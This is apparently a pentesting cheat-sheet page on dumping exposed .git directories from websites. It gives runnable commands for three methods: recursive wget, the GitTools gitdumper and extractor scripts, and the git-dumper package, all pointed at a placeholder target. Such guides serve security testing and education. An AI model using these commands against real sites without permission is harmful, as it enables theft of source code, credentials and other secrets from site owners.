 ```yaml
---
title: Dump Git Repository from Website
description: If we can have permission to access git repositoy in target website, we can dump the git repository and investigate git logs or histories to get sensitive information.
tags:
    - Web
refs:
date: 2023-07-06
draft: false
---
```


## Dumping

We can simply use **`wget`** command in Linux to download the git repository.  
After that, we can investigate files or all histories.

```bash
# -r: Recursive
wget -r https://example.com/.git/
cd example.com
git log --stat
git checkout <commit_id>
```

<br />

## Dumping with gitdumper and extracter

[GitTools](https://github.com/internetwache/GitTools) downloads Git repository of the web application.  
To dump the repository, execute the following commands.

```bash
wget https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
chmod +x gitdumper.sh
./gitdumper.sh https://example.com/.git/ ./example
```

We should get the git repository in local.  
Then extract the entire project by executing the following.

```bash
wget https://raw.githubusercontent.com/internetwache/GitTools/master/Extractor/extractor.sh
chmod +x extractor.sh
./extractor.sh ./example ./new_example
```

Now we retrieve the entire git project from website.  
It is stored in **“./new_example”** folder. We can investigate the repository.

<br />

## Dumping with Git-Dumper

[git-dumper](https://github.com/arthaud/git-dumper) is an useful Python package.

```bash
pip install git-dumper
git-dumper https://example.com/.git ./dumped
```
